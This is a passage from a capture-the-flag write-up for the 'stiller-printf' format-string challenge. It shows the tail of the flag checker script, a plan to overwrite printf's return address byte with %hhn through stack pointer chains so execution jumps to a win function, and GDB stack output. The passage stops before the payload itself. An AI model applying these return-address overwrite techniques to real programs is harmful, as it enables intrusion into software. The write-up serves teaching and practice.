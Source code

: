 ```python
    except FileNotFoundError:
        return False


total = 150
passed = sum([check(payload) for _ in tqdm(range(total))])
print(f"Total: {total} Passed: {passed}")
if passed > 58:
    print("CONSISTENT ENOUGH FOR ME :D")
    print("LITCTF{FLAG}")
    exit(0)
print("NOT CONSISTENT ENOUGH")
exit(1)
```

Essentially, it runs `stiller-printf` with our static payload (which must be all ASCII characters and less than 256 bytes, by the way) 150 times. We get the flag only if the program passes 58/150 times, which is a bit more than a 1/3 success rate. This is way more consistent than the 1/4096 chance in `still-printf`! In addition to this, we must do this without using any non-ASCII characters (this means no placing addresses on the stack directly), and without any leaks, as the same payload is given to the program every time.

We do have a few things going for us, though. We do not need to spawn a shell to win one of the rounds. Reading the wrapper code, we only need the contents of `win.txt` to be the same as the contents of `secret.txt`. Thankfully, the `win` function in `stiller-printf` does this for us. Even better, the address of the `win` function is very close what the return address of `printf` will be (`win` is at `base+0x1209` and `printf` will return to `base+0x12e7`), so by overwriting only the least significant byte, we can change the return address to `win` without any bruteforcing. 

So, we can lay out a plan for solving this challenge without significant bruteforce:

1. Find one or more pointer chains that we can utilize to write to the stack and give us better control over memory.
2. Write the correct two bytes to index 73 or 75 that will make one of the pointers point to the return address. This should allow us to later write to the return address itself.
3. Write one byte (`0x09`) to the least significant byte of the return address using `%hhn`. Because using smaller sizes with `%n` will just take the number of characters printed mod `2^bit_length`, we just need the number of characters printed at the point when we use `%hhn` to be 0x09 mod 256.

### Step 1: finding pointer chains
Using GDB, we can pretty easily find these pointer chains. I like to use the `telescope` command in [GDB-GEF](https://github.com/hugsy/gef) to do this. We can set a breakpoint at the `printf` function so that we would stop right as printf is being called, and supply a random string as input. Then, we can examine the stack using `telescope $rsp`:

```
gef➤  telescope $rsp
0x00007fffffffdea8│+0x0000: 0x00005555555552e7  →  <main+82> mov edi, 0x1        ← $rsp
0x00007fffffffdeb0│+0x0008: "i <3 format strings! joshL challenges are cool!\n"  ← $rdi
0x00007fffffffdeb8│+0x0010: "mat strings! joshL challenges are cool!\n"
0x00007fffffffdec0│+0x0018: "ngs! joshL challenges are cool!\n"
0x00007fffffffdec8│+0x0020: "hL challenges are cool!\n"
0x00007fffffffded0│+0x0028: "enges are cool!\n"
0x00007fffffffded8│+0x0030: "e cool!\n"
0x00007fffffffdee0│+0x0038: 0x0000000000000000
0x00007fffffffdee8│+0x0040: 0x0000000000000000
0x00007fffffffdef0│+0x0048: 0x0000000000000000
gef➤
0x00007fffffffdef8│+0x0050: 0x0000000000000000
0x00007fffffffdf00│+0x0058: 0x0000000000000000
0x00007fffffffdf08│+0x0060: 0x0000000000000000
0x00007fffffffdf10│+0x0068: 0x0000000000000000
0x00007fffffffdf18│+0x0070: 0x0000000000000000
0x00007fffffffdf20│+0x0078: 0x0000000000000000
0x00007fffffffdf28│+0x0080: 0x0000000000000000
```